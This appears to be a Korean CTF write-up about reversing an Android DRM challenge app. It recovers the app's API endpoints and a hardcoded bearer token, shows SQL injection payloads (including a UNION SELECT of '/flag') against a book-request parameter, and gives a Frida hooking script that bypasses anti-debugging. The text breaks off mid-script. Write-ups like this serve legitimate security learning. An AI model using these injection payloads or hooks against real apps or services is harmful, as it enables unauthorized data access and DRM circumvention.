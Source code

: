 결과는 다음과 같다:
```
/rhBZeQ89tAiYPD41yqoKQN6o/books # 책 리스트 요청
Dr3amDrmUs3rAg3nt # User Agent
Bearer c2VjcmV0X2F1dGhvcml6YXRpb25faGVhZGVyX2Zyb21fZHJlYW1kcm1fYXBw # Authorization
/vXxUDAXOnDqtlt13Vfgods6n/request_book?id= # 특정 책 요청
/CMPpMyH3jV0jzOFKI4oNLS9t/download/ # 특정 책 다운로드
```

각각의 기능을 써보면 `books` 기능을 통해 책의 기본적인 정보를 얻어오고, `request_book` 기능을 통해 복호화를 해제하기 위한 정보와 다운로드 경로를 얻어오며, 마지막으로 책을 다운로드한다는 것을 알 수 있다.

특정 책을 요청할 때, 아래와 같이 요청을 만들게 된다:
```
/vXxUDAXOnDqtlt13Vfgods6n/request_book?id=
```
조작할 부분이 해당 부분밖에 존재하지 않았다고 생각했기 때문에 `SQL Inection`을 시도하였다.
```
/vXxUDAXOnDqtlt13Vfgods6n/request_book?id=1 limit 0,1 # Success
/vXxUDAXOnDqtlt13Vfgods6n/request_book?id=1 limit 1,1 # Fail
```
위 테스트를 통해 `SQL Injection`이 가능하다고 결론을 내릴 수 있다. 반환되는 정보가 `fileName` 이라고 추측하여 아래와 같은 구문을 만들었다:
```
/vXxUDAXOnDqtlt13Vfgods6n/request_book?id=9 UNION ALL SELECT \'/flag\'
```
이를 통해 암호화된 `/flag`와 `key`를 얻을 수 있다.
수동으로 JNI decrypt 함수를 호출하여 바로 복호화된 `/flag`를 얻고 싶었지만 동작하지 않았기 때문에 JNI를 분석하기로 했다.

JNI를 분석하여 복호화 루틴을 분석하기만 하면 되기 때문에 간단할 것이라 생각했지만, 패킹이 걸려있는 듯 보였고 상황 상(군대) 에뮬레이터를 이용한 동적 디버깅만이 가능했다.
하지만 ARM JNI만이 정상적으로 동작했고, x86 64 JNI는 동작하지 않았기 때문에 루팅된 안드로이드 폰이 존재하지 않는 이상 메모리에 올라간 언패킹된 JNI를 정적으로 분석하는 것만이 가능했다.

또한 안티 디버깅이 존재하는데, 이는 후킹으로 간단히 우회할 수 있다:
```py
import frida
import sys

DEVICE = "127.0.0.1:5575"
PACKAGE = "com.theori.dreamdrm"

def on_message(message, data):
    print(f"{message} -> {data}")

js = '''
Java.perform(function(){
    var antiClass = Java.use("y.e");
    antiClass.c.implementation = function() {
        console.log("Hooking y.antiClass.detetAnti: ");
        console.log("Done.")

        return;
    }
});
'''
try:
    dev = frida.get_device(DEVICE)
    # dev = frida.get_usb_device()
    pid = dev.spawn([PACKAGE])
    print(f"App is Starting.. {pid}")
    process = dev.attach(pid)
    dev.resume(pid)
    
    script = process.create_script(js)
    script.on('message', on_message)
    print("Running..")
    script.load()
    input()
```